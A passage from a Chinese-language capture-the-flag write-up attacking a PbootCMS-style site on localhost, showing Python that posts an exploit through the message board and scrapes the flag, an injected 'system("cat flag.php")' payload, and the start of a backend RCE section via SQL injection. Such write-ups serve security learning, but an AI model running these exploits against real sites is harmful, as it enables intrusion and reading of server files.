    前台留言板并未显示任何内容，猜测后台留言已经新增成功，去前台留言板获取新增的留言，又因为留言内容执行的是  `system("cat flag.php");` ， 所以应该可以拿到 `flag`

   ```python
   def catchFlag():
       r = requests.get("http://127.0.0.1/?gbook/")
       flag = re.findall(r'''flag="(.+?)";''', r.text)
       if (len(flag)>=0):
           #多次插入exp会造成获取到多个flag，取一个即可
           print(flag[0])
       else:
           print("can not catch the Flag")
   ```

   主函数

   ```python
   if __name__ == '__main__':
       url = "http://127.0.0.1/?message/"
       if myPost(url):
           catchFlag()
   ```

   成功拿到 `flag{flaggg}`![image-20220723021836465](img/Break2_catchFlag_308.png)

#### 3.BreakIt-漏洞三

**整体破解思路分析**：

- 由于是后台 RCE ，需要先拿到账号密码登录

- 漏洞在新增内容处，参考 [PbootCMS SQL Injection](https://github.com/wowwooo/vnotes/blob/master/PbootCMS%20SQL%20Injection%20Description.md) 进行注入测试，首先尝试一下爆数据库名，发现成功。

